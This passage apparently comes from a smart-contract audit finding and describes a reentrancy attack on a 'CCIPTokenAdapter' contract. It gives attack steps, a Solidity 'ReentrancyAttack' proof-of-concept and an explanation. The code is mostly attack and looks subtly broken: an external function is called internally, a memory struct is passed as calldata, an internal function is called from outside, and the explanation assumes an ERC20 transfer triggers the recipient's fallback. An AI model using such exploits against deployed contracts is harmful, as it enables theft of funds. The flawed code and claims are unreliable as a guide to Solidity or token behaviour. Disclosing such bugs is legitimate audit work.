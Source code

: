 - Deploy the ReentrancyAttack contract: The attacker first deploys a malicious contract that will exploit the reentrant call.

- Trigger the Vulnerability: The attacker initiates a transaction that will cause the CCIPTokenAdapter to call the malicious ReentrancyAttack contract during the external call.

- Reenter During the External Call: The malicious contract’s fallback function will reenter the \_ccipReceive function during the external call to IERC20(token).safeTransfer and bridgeRouter.receiveMessage.

Example Contract

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./CCIPTokenAdapter.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract ReentrancyAttack {
    CCIPTokenAdapter public target;
    address private owner;

    constructor(address _target) {
        target = CCIPTokenAdapter(_target);
        owner = msg.sender;
    }

    function attack(Client.Any2EVMMessage calldata message) external {
        require(msg.sender == owner, "Only owner can call this function");
        target._ccipReceive(message);
    }

    fallback() external payable {
        if (shouldReenter()) {
            // Reenter the `_ccipReceive` function during the external call
            Client.Any2EVMMessage memory message;
            // Crafted message to pass as argument
            attack(message);
        }
    }

    function shouldReenter() private view returns (bool) {
        // Logic to prevent infinite loop; can be based on a condition
        return true; // For demonstration purposes, this is always true
    }
}
```

### Explanation

- Deploy: The attacker deploys the ReentrancyAttack contract with the address of the vulnerable CCIPTokenAdapter.
- Call Attack Function: The attacker calls the attack function on the malicious contract.
- Reentrancy Trigger: During the execution of IERC20(token).safeTransfer, the fallback function of the malicious contract is invoked.
  Infinite Reentry: The fallback function reenters the \_ccipReceive function, perpetuating the reentrant loop.
